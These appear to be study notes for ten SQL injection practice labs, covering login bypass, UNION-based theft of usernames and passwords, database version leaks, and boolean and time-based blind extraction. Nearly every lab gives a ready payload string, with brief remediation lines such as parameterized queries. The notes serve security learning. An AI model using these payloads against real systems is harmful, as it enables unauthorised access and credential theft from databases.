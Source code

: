 ## Lab 1
**Recon:**

- Find a URL param like `?category=Gifts` or `?productId=1`
    
- Add a `'` => `?productId=1'`
    
- If you see **SQL error** => you’re in.
    

**Payload:**

- Test classic `' OR 1=1--`
    
- Example: `?productId=1 OR 1=1--`
    
- Expected: all products returned, including hidden ones.'




## Lab 2

- **Goal:** Bypass login.
    
- **Recon:** Try `' OR '1'='1`
    
- **Payload:**
    
    vbnet
    
    CopyEdit
    
    `Username: ' OR '1'='1 Password: anything`
    
- **Success:** You’re logged in as first user.



## Lab 3

- **Goal:** Use UNION to get usernames/passwords.
    
- **Recon:**
    
    - `' ORDER BY 1--` … increase to find number of columns.
        
    - `' UNION SELECT NULL,NULL--`
        
- **Payload:**
    
    vbnet
    
    CopyEdit
    
    `' UNION SELECT username,password FROM users--`
    
- **Success:** DB leaks users.


## Lab 4 
- **Goal:** Get multiple values into 1 output.
    
- **Recon:** If only 1 column shown, concat.
    
- **Payload:**
    
    bash
    
    CopyEdit
    
    `' UNION SELECT NULL, username || '~' || password FROM users--`
    
    (Postgres: `||`, MySQL: `CONCAT()`)
    
- **Success:** User + pass in 1 column.
    
- **Fix:** Same as above.


## Lab 5

- **Goal:** Figure out which column shows text.
    
- **Recon:** `' UNION SELECT NULL,'abc'--`
    
- **Payload:**
    
    - Try text in each column.
        
- **Success:** ‘abc’ appears on page.
    
- **Fix:** Prepared statements.

## Lab 6 

- **Goal:** Count columns for UNION.
    
- **Recon:** `' ORDER BY N--` until error.
    
- **Payload:**
    
    - `' UNION SELECT NULL,NULL--`
        
- **Success:** No error = correct count.
    
- **Fix:** Parameterize.

## Lab 7 

- **Goal:** Extract version for Oracle.
    
- **Recon:** `' UNION SELECT banner,NULL FROM v$version--`
    
- **Payload:**
    
    swift
    
    CopyEdit
    
    `' UNION SELECT banner,NULL FROM v$version--`
    
- **Success:** DB version leaks.
    
- **Fix:** DB user shouldn’t have select on sys tables.


## Lab 8

- **Goal:** Leak version.
    
- **Payloads:**
    
    pgsql
    
    CopyEdit
    
    `' UNION SELECT @@version,NULL-- ' UNION SELECT version(),NULL--`
    
- **Success:** Version shows.
    
- **Fix:** See above.

## Lab 9 
- **Goal:** Extract using true/false.
    
- **Payload:**
    
    sql
    
    CopyEdit
    
    `' AND 1=1-- ' AND 1=2--`
    
- **Recon:** Response changes? Blind works.
    
- **Use:** Craft conditional dumps:
    
    vbnet
    
    CopyEdit
    
    `' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a'--`
    
- **Success:** Observe difference.
    
- **Fix:** Parameterize.


## Lab 10
- **Goal:** Extract with time.
    
- **Payload:**
    
    sql
    
    CopyEdit
    
    `' AND IF(1=1,SLEEP(5),0)-- ' WAITFOR DELAY '0:0:5'--`
    
- **Recon:** Response time = true.
    
- **Success:** Use for char brute:
    
    bash
    
    CopyEdit
    
    `' AND IF(SUBSTRING((SELECT database()),1,1)='a',SLEEP(5),0)--`



